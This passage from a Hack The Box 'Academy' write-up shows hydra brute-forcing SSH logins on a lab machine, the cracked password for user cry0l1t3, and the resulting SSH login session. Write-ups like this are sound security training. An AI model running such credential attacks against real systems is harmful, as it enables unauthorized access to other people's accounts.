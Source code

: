 
## Listing users on the box
![13](/assets/images/htb-boxes/academy/13.png)

So lets try that password for every user.
## SSH password bruteforcing with hydra
```console
reddevil@ubuntu:~/Documents/htb/boxes/academy$ hydra -L user -P pass ssh://academy.htb
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-02-27 14:54:53
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 6 tasks per 1 server, overall 6 tasks, 6 login tries (l:6/p:1), ~1 try per task
[DATA] attacking ssh://academy.htb:22/
[22][ssh] host: academy.htb   login: cry0l1t3   password: mySup3rP4s5w0rd!!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-02-27 14:55:00
```

We get a hit. So let us login on the box using SSH as user cry0l1t3.

## Logging as user mrb3n
```console
reddevil@ubuntu:~/Documents/htb/boxes/academy$ ssh cry0l1t3@academy.htb
cry0l1t3@academy.htb's password: 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-52-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 27 Feb 2021 09:11:02 AM UTC

  System load:             0.01
  Usage of /:              37.8% of 13.72GB
  Memory usage:            14%
  Swap usage:              0%
  Processes:               222
  Users logged in:         1
  IPv4 address for ens160: 10.10.10.215
  IPv6 address for ens160: dead:beef::250:56ff:feb9:b29


89 updates can be installed immediately.
42 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
```